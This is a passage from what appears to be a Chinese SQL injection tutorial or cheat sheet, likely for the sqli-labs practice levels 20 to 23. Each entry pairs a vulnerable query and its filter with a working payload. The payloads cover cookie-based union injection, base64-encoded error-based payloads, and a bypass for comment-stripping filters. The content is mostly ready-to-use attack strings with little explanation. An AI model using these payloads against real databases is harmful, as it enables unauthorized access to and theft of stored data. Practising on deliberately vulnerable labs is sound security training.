 ### 20、Cookie头报错注入 [ ' ]

```python
# SQL语句
SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1;
# 过滤语句
无
# Payload
uname=admin' and 1=2 union select database(),2,3 #
```



## 三、过滤

### 21、Base64编码 [ ') ]

```python
# SQL语句
SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1;
# 过滤语句
$cookee = base64_decode($cookee);
# Payload
JykgYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDdlLGRhdGFiYXNlKCksMHg3ZSkpIw==# 
```

### 22、Base64编码 [ " ]

```python
# SQL语句
$cookee1 = '"'. $cookee. '"';
SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1;
# 过滤语句
$cookee = base64_decode($cookee);
# Payload
LWFkbWluIiB1bmlvbiBzZWxlY3QgMSwyLGRhdGFiYXNlKCkj
```

### 23、过滤 -- # %23 [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
# Payload
?id=' union select 1,2,database() '
```
